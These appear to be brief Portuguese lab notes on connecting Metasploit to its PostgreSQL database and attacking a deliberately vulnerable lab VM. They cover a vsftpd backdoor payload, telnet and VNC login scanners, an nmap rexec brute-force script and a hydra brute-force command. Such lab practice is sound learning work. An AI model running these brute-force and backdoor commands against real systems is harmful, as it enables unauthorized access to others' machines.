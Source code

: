  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib
sudo service postgresql start

msfdb init
----
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf

![image](https://github.com/user-attachments/assets/4fd6c1bb-7046-475b-aa98-4870ef157d5e)

![image](https://github.com/user-attachments/assets/a7e1a171-b54a-4cfa-b625-edcb3abb0ada)

![image](https://github.com/user-attachments/assets/5f82ab13-8c53-4ac1-bfc4-88fe7959647e)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 
